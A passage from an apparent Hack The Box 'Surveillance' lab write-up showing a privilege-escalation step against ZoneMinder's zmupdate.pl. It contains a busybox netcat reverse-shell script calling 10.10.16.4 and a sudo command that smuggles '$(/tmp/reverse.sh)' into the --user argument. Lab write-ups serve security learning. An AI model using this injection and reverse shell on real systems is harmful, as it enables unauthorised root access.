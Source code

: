    ![Untitled](../assets/img/hackthebox/Surveillance/Untitled%2025.png)
    

It is a script intended to check and update the ZoneMinder database. It basically needs a password to run. I can try to send a command with the password obtained by linpeas.

- Payload
    
    ```shell
    #!/bin/bash
    busybox nc 10.10.16.4 5580 -e sh
    ```
    
- `sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/reverse.sh)' --pass=ZoneMinderPassword2023`
    